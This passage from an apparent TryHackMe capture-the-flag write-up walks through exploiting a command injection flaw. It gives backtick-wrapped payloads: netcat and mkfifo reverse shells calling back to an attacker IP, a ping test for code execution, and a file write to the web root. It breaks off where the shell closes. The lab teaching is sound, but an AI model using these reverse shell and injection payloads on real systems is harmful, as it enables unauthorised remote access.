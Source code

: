 ### Verifying Code Execution

We can try inputting the following into the input box to get a reverse shell immediately:

```
`nc -e /bin/bash 10.10.113.99 413`
```

This doesn't work, so let's try a `ping` command to verify whether or not we have *Remote Code Execution* via this command injection vulnerability.

We run a `tcpdump` command to listen for a ping (an ICMP request) on whatever interface we are using to connect to TryHackMe (if you're using Attack Box, it's `eth0` - if you're using OpenVPN, it's probably `tun0`):

```bash
$ sudo tcpdump -i [INTERFACE] -n icmp
```

Then we send a payload to ping our machine within the backticks:

```
`ping -c 1 10.10.113.99`127.0.0.1
```

We can see that this works (a little too well - we have a *lot* of ping requests coming back to our machine):

![](/assets/images/Pasted image 20211121224508.png)

This verifies code execution.

### File Writing

We can test code execution further by trying to write to a file accessible by the webserver. Most servers on Linux are hosted within the `/var/www/html` directory by default, so let's try to write a file there - if it works, we should be able to view it in browser.

Submitting this payload to the input box should take the output of the `which nc` command and redirect it to a file `hello.html` on the server:

```
`echo $(which nc) > /var/www/html/hello.html`
```

Sure enough, the file contains the output of the command:

![](/assets/images/Pasted image 20211121224706.png)

This verifies that `netcat` is installed on the target machine. We can try a couple more reverse shell payloads - remember to check [revshells.com](https://revshells.com) to look for new ones.

This reverse shell command is often reliable:

```
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.113.99 413 >/tmp/f`
```

In this case we get a shell, but it is closed instantly:
